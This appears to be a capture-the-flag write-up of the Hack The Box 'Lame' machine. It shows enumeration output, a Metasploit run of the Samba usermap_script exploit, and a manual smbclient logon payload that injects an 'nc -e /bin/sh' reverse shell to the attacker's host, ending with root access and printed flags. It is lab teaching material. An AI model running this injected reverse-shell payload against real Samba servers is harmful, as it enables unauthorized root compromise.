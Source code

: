 ```yaml
---
title: Lame - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-04-12
image: images/lame_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/lame_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------

# USER
## Enumeration
```bash
root@nidus:/git/thm# nmap -Pn -sC -sV -n 10.10.10.3
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 10:09 CEST
  Nmap scan report for 10.10.10.3
  Host is up (0.035s latency).
  Not shown: 996 filtered ports
  PORT    STATE SERVICE     VERSION
  21/tcp  open  ftp         vsftpd 2.3.4
  |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | ftp-syst:
  |   STAT:
  | FTP server status:
  |      Connected to 10.10.14.4
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      vsFTPd 2.3.4 - secure, fast, stable
  |_End of status
  22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  | ssh-hostkey:
  |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
  |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  |_clock-skew: mean: -3d00h51m31s, deviation: 2h49m45s, median: -3d02h51m34s
  | smb-os-discovery:
  |   OS: Unix (Samba 3.0.20-Debian)
  |   Computer name: lame
  |   NetBIOS computer name:
  |   Domain name: hackthebox.gr
  |   FQDN: lame.hackthebox.gr
  |_  System time: 2020-07-27T01:17:55-04:00
  | smb-security-mode:
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)
```

### SMB
Login in to the ftp with anonymous:anonymous we find nothing of use. Enumerate the SMB shares using smbmap and smbclient.

```bash
root@nidus:/git/htb/lame# smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3
        Disk                                                  	Permissions	Comment
  ----                                                  	-----------	-------
  print$                                            	NO ACCESS	Printer Drivers
  tmp                                               	READ, WRITE	oh noes!
  opt                                               	NO ACCESS
  IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
  ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

The share tmp seems interesting, both read and write permissions - lets enumerate more there.


> **NOTE:**
>
> If you're experiencing this error when trying to list with smbclient: "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED".
> Then go ahead and add the following two lines to `/etc/samba/smb.conf` under `[global]`:
> ```bash
>  client min protocol = NT1
>  client max protocol = SMB3
> ```


```bash
root@nidus:/git/htb/lame# smbclient \\\\10.10.10.3\\tmp
  smb: \> ls
  .                                   D        0  Mon Jul 27 07:50:50 2020
  ..                                 DR        0  Sun May 20 20:36:12 2012
  5145.jsvc_up                        R        0  Mon Jul 27 07:17:46 2020
  .ICE-unix                          DH        0  Mon Jul 27 07:16:41 2020
  .X11-unix                          DH        0  Mon Jul 27 07:17:08 2020
  .X0-lock                           HR       11  Mon Jul 27 07:17:08 2020
```

There's nothing of direct use for us in here either. Instead we change the approach and look for known samba vulnerabilities.

Using searchsploit we look for any direct vulnerabilities of Samba version 3.0.20.

```bash
root@nidus:/git/htb/lame# searchsploit samba 3.0.20
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                              |  Path
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
  ..
  Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                            | unix/remote/16320.rb
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Direct we find a msf module available. Turns out this module gives us instant root. Grab root.txt and user.txt

```bash
  msf5 auxiliary(scanner/ssh/ssh_enumusers) > use exploit/multi/samba/usermap_script
  msf5 exploit(multi/samba/usermap_script) > set lhost 10.10.14.4
  msf5 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
  msf5 exploit(multi/samba/usermap_script) > run

    [*] Started reverse TCP handler on 10.10.14.4:4444
    [*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:46617) at 2020-07-30 10:53:52 +0200

    whoami
      root
    pwd
      /
    cat /root/root.txt
      92caac3be140ef409e45721348a4e9df
    ls -al /home
      total 24
      drwxr-xr-x  6 root    root    4096 Mar 14  2017 .
      drwxr-xr-x 21 root    root    4096 May 20  2012 ..
      drwxr-xr-x  2 root    nogroup 4096 Mar 17  2010 ftp
      drwxr-xr-x  2 makis   makis   4096 Mar 14  2017 makis
      drwxr-xr-x  2 service service 4096 Apr 16  2010 service
      drwxr-xr-x  3    1001    1001 4096 May  7  2010 user
    cat /home/makis/user.txt
      69454a937d94f5f0225ea00acd2e84c5
```

### Or manually without metasploit: 

Logging in as anonymous user on the smb-service we find that 'logon' option is available.
We can exploit this directly to get a reverse shell.

**(a)** Verify options with '?' or 'help'
```bash
smbclient \\\\10.10.10.3\\tmp\\
smb: \> ?
  [..]
  wdel           logon          listconnect    showconnect    tcon
```

**(b)** Setup a reverse shell to your box
```bash
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.10 4488`"
  Password:
  session setup failed: NT_STATUS_IO_TIMEOUT
```

**(c)** Grab the incomming session
```bash
[root:/git/htb/lame]# nc -lvnp 4488                                                                                               (master✱)
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.3] 58543
  whoami
  root
  python -c 'import pty;pty.spawn("/bin/bash")';
  root@lame:/root# cat root.txt
    cat root.txt
    744e9fa96f4e8423020ccb841c60e4d2
```
